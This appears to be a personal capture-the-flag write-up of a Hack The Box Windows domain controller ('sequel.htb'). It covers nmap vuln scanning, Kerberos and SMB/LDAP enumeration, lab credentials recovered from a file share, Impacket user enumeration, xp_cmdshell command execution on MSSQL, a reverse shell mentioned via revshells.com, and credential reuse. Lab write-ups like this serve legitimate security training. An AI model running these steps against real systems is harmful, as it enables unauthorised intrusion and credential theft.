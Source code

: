 

![[Pasted image 20250616230815.png]]

# Given Credentials:


rose:KxEPkKe6R8su


# 1. Nmap: 
-> I always want to start here to see what ports are open and what services are running.

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.10.11.51 -oN nmap.basic`

When that scan is done I want to do a deeper scan and run that while I do other tasks.

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.10.11.51`

==Try to find valid users with nmap==: 
`sudo nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='sequel.htb',userdb=/usr/share/wordlists/statistically-likely-usernames/us-census-base-lists/j.smith-x98800.txt 10.10.11.51`

Some output from the scan:

1. DNS: DC01.sequel.htb0
2. LDAP and smb in use

![[Pasted image 20250615172520.png]]

## What to try?
1. Null session on SMB?
	1. `rpcclient -U "" -N <target_ip> `
		1. ^^ nothing here either
	2. `smbmap -u "" -p "" -P 445 -H 10.10.11.51 && smbmap -u "guest" -p "" -P 445 -H 10.10.11.51`
		1. ^^ nuthin
2. Null session on LDAP?
	1. `ldapsearch -x -H ldap://10.10.11.51:389 -b "dc=DC01.sequel,dc=htb" "(objectClass=user)"`
	2. ^^ Got nothing here
3. User enumeration with kerbrute?

# enum4linux:
`enum4linux -a 10.10.11.35`

==Usernames:== administrator, guest, krbtgt, domain admins, root, bin

not much more than that.


# With the given credentials (*sigh* did not realize) smbmap:
`smbmap -H 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su' --no-banner`

![[Pasted image 20250615180030.png]]

Let's look into the shares `Users` and `Accounting Department`

These files are on the accounting share: 
![[Pasted image 20250615180459.png]]

What do they have in them?

Likeley username: `ruy.fernandez` or `rfernandez`

==In a shared xml file there are usernames and creds==

```
rose:KxEPkKe6R8su
angela:0fwz7Q4mSpurIt99
Oscar:86LxLBMgEWaKUnBG
kevin:Md9Wlq1E5bZnVDVo
sa:MSSQLP@ssw0rd!
ryan:WqSZAF6CysDQbGb3
sql_svc:WqSZAF6CysDQbGb3
```


## Enumerate users further: 
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py sequel.htb/"oscar":"86LxLBMgEWaKUnBG" -dc-ip 10.10.11.51 -all`

![[Pasted image 20250615183434.png]]

GROUPS:
![[Pasted image 20250615183638.png]]

Cloneable Domain Controllers??


## evil-winrm:
`evil-winrm -i 10.10.11.51 -u oscar -p '86LxLBMgEWaKUnBG'`

^^ nope

## Let's try to get a session on the sqlserver:
`python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sequel.htb/sa@10.10.11.51`

`EXEC xp_cmdshell 'whoami /priv'`

![[Pasted image 20250616221154.png]]

Ryan is part of the remote management users

==NTUSER.DAT== is accessible from the sql user:
![[Pasted image 20250616222424.png]]

## Let's get a reverse shell using revshells.com: https://www.revshells.com/


==We have some interesting files here==:
![[Pasted image 20250616231857.png]]


### Note: Screeshots are saved here: "/home/david/.cache/thumbnails/normal/"

==In the `sql-configuration.INI` file there are creds for the `sql_svc` account==:  
![[Pasted image 20250618221317.png]]

sql_svc:WqSZAF6CysDQbGb3

```shell
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sequel.htb/sql_svc@10.10.11.51 -windows-auth

# Don't forget -windows-auth!

```

## Ryan reused his credentials from `sql_svc`!
ryan:WqSZAF6CysDQbGb3